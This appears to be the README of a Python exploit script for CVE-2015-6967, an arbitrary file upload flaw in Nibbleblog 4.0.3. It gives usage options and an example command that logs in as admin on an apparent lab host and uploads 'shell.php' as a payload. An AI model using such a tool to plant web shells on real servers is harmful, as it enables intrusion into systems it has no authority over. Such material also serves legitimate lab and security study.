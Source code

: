 # CVE-2015-6967

Nibbleblog 4.0.3 - Arbitrary File Upload (CVE-2015-6967)

## requirements

- python 3
- `requests`

## usage

```
usage: exploit.py [-h] --url URL --username USERNAME --password PASSWORD --payload PAYLOAD

optional arguments:
  -h, --help            show this help message and exit
  --url URL, -l URL
  --username USERNAME, -u USERNAME
  --password PASSWORD, -p PASSWORD
  --payload PAYLOAD, -x PAYLOAD
```

example:

`python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php`

